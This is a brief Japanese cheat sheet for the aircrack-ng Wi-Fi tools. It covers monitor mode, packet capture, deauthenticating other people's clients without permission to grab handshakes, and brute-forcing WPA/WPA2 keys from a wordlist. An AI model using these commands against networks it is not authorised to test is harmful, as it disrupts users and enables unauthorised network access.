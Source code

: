 ```yaml
---
title: "aircrack-ng"
date: 2019-10-21 11:56:33 +0900
---
```


aircrack-ng
===


### 無線NICのリストを表示

```bash
$ sudo airmon-ng
```

### NICを利用してる他のプロセスを殺す

```bash
$ sudo airmon-ng check kill
```

### パケットキャプチャを有効化

```bash
$ sudo airmon-ng start wlp3s0
```

これでwlp3s0monというNICが生える。

### パケットキャプチャの開始

```bash
$ sudo airodump-ng wlp3s0 --bssid <bssid>  -w <filename>
$ sudo airodump-ng wlp3s0 --essid <essid>  -w <filename>
```

filename-01.{cap,csv,kismet...}ができる。

### より認証時のパケットを集めるために、他人を勝手にdeauthenticateする

```bash
$ sudo aireplay-ng --deauth 1 -a <bssid> -c <client mac address> wlp3s0
```

client mac addressはairodumpの結果から適当に引っ張ってくる。

### 鍵計算

WPA/WPA2 PSK(pre shared key)を総当り計算する。

```bash
$ sudo aircrack-ng <option> *.cap
```

optionはいろいろあるっぽい。

- -e <essid>
- -b <bssid>
- -c : search only alpha-numeric
- -w <filename> : passwird list

### パケットキャプチャモードの停止

```bash
$ sudo airmon-ng stop wlp3s0mon

